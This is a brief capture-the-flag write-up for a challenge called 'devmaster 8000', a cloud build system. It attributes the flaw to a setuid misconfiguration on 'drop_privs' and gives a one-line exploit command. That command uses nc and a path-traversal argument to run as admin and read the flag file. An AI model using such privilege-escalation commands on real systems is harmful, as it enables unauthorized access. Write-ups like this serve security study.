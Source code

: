 # devmaster 8000

cloud build system.

## Vulnerability

There is a setuid misconfiguration on `drop_privs` file.

## Exploit

`/client nc devmaster.ctfcompetition.com 1337  -- source.c -- my_binary -- ../../drop_privs admin admin cat ../../flag`
